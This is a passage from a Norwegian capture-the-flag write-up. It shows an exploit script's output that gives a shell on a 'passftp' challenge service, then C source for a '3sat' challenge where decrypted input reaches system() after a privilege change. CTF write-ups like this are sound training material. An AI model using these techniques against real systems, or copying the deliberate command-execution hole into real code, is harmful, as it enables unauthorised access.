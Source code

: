 Og vi får enkelt shell:

```
login@corax:~$ python3 exploit.py
[+] Opening connection to passftp on port 1024: Done
[*] Switching to interactive mode
Error opening file
Spawning shell
$ pwd
/home/admin/files/user
$ cd ../..
$ ls
FLAGG
files
passFTP
passwd.txt
ynetd
```


## 2.6. Department of Technology

### 2.6.1_3sat_1

Koden på denne har en sårbarhet som ikke er så lett å legge merke til først:

```c

void decrypt(char *plaintext, char *ciphertext, char *key) {
    EVP_CIPHER_CTX *ctx = EVP_CIPHER_CTX_new();

    if (!EVP_CipherInit(ctx, EVP_aes_128_ecb(), key, NULL, 0)) errx(1, "eci");
    EVP_CIPHER_CTX_set_padding(ctx, 0);

    int len = 0;
    if (!EVP_CipherUpdate(ctx, plaintext, &len, ciphertext, BLOCK_SIZE)) errx(1, "ecu");
    if (len != BLOCK_SIZE) errx(1, "bs");

    EVP_CIPHER_CTX_free(ctx);
}


int main(int argc, const char **argv) {
    alarm(100);

    char payload[4096] = {};

    printf("Expecting bootloader (%d bytes)\n", PAGE_SIZE);
    fflush(stdout);

    char buf[4096] = {};
    fread(buf, PAGE_SIZE, 1, stdin);

    char key[BLOCK_SIZE] = "hardcoded secret";

    for (int i=0; i < PAGE_SIZE; i += BLOCK_SIZE) {
        decrypt(&payload[i], key, &buf[i]);
    }

    hexdump(payload, PAGE_SIZE);
    alarm(2);

    setuid(geteuid());
    setgid(getegid());
    system(payload);
```